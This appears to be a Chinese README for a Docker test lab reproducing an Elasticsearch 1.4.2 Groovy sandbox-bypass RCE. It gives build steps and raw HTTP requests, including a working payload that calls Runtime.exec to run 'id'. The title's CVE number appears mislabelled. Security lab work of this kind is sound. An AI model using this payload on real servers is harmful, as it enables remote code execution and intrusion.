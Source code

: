 # ElasticSearch Groovy 沙盒绕过 && 命令执行漏洞（CVE-2015-3120）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.2

## 原理

参考文章：

- http://cb.drops.wiki/drops/papers-5107.html
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits


CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞是一个沙盒绕过，利用本漏洞即可执行任意系统命令。

## 漏洞测试

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

![](1.png)
